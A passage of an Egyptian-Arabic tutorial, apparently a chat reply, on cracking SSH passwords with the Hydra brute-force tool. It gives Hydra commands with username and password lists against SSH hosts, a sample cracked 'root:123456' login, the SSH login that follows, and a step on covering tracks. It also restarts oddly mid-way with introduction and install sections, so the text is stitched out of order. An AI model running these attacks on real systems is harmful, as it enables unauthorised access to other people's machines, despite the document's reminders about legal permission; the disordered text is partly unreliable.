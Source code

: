 3. نفذ الهجوم:
   - جرب اسم مستخدم وكلمة سر من قايمة:
     -  hydra -L user.txt -P locks.txt ssh://10.10.242.128  
   - لو عارف اسم مستخدم معين (مثل root):
     - hydra -l root -P rockyou.txt 192.168.1.100 ssh -t 4

4. تحليل النتايج:
   - لو Hydra لقت كلمة السر، هتظهرلك زي كده:
     - [22][ssh] host: 192.168.1.100   login: root   password: 123456
   - استخدم البيانات دي للدخول (بإذن طبعًا):
     - ssh root@192.168.1.100

5. غطي أثرك (اختياري):
   - لو بتختبر، سجّل كل حاجة في تقرير وخلّص المهمة من غير ما تسيب بصمات.

---

### ملاحظة أخيرة
Hydra قوية جدًا، بس لازم تستخدمها بحكمة وبإذن قانوني. لو استخدمتها غلط، ممكن تقع في مشاكل كبيرة. خليك محترف واشتغل في بيئة اختبار أو مع عملاء عندهم عقد معاك.

تمام كده؟ لو عايز تفاصيل أكتر عن أي جزء، قوللي!](<تمام، هعدل الشرح بتاع **Hydra** وأركز على الأوامر من الأبسط جدًا لحد المتقدمة بشكل تدريجي، مع الحفاظ على الأسلوب العملي والأمثلة الطريفة بالعامية المصرية بعد كل جزء، وفي الآخر هاديك خطوات عملية للاستغلال في الـ Pentesting. يلا نبدأ!

---

### 1. Hydra: هي مين وبتعمل إيه بالضبط؟
Hydra أداة مفتوحة المصدر بتستخدم لكسر كلمات المرور عن طريق هجمات **Brute Force** أو **Dictionary Attacks**. يعني بتحاول تجرب كل الاحتمالات الممكنة لكلمات السر على خدمات زي SSH، FTP، HTTP، وغيرها لحد ما تلاقي الصح.

الفكرة العملية:
- بتديها الهدف (زي IP أو موقع).
- بتحدد نوع الخدمة (مثل SSH أو صفحة لوجن).
- بتديها اسم مستخدم وقايمة كلمات مرور.
- بتخليها تشتغل وتجرب لحد ما تصيب.

مثال طريف: "تخيّل Hydra زي واحد بياع مفاتيح قديم، بيجرب كل مفتاح في الباب بتاعك لحد ما يقولك: أخيرًا ياعم، الباب اتفتح!"

---

### 2. تثبيت Hydra
لو بتستخدم Kali Linux، Hydra بتيجي مثبتة. لو مش موجودة، نزلها كده:
- sudo apt-get update
- sudo apt-get install hydra

لتأكد إنها شغالة:
- hydra -h

ده هيطلعلك كل الأوامر اللي بتدعمها.

مثال طريف: "Hydra زي المكنة الجديدة، لازم تجيبها من المحل وتشغلها الأول عشان تعرف هتعملك إيه!"

---